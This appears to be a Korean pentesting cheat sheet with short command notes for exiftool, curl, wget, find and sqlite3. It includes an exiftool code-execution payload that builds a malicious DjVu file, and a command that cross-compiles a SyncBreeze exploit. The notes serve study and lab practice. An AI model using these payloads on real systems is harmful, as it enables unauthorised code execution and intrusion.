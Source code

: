 # exiftool

```bash
exiftool -a -u brochure.pdf
```

- `exiftool` : 이미지/문서/영상 파일의 메타데이터를 조회·수정하는 도구  
- `-a` (*allow duplicates*) : 중복 키가 있어도 모두 표시  
- `-u` (*unknown*) : 표준에 없는(알 수 없는) 태그까지 표시  
- `brochure.pdf` : 대상 파일

## exiftool code execution
```bash
payload : (metadata "\c${system('id')};")
bzz payload payload.bzz
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
file exploit.djvu
```
---

# 교차 컴파일

```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

---
# curl
```bash
curl -L http://192.168.132.65
```

- `-L` : redirection

---
# wget
```bash
wget http://ip/test.txt -O /tmp/test.txt
```

- `-O` : 데이터 저장(대문자)

---
# find
```bash
find . -name '*config*' 2>/dev/null
```
---

# sqlite3
```bash
sqlite3 {dbname}
.tables
.headers on   # 컬럼 이름 출력
.mode column  # 표 형식으로 출력
select * from user;
.quit
```

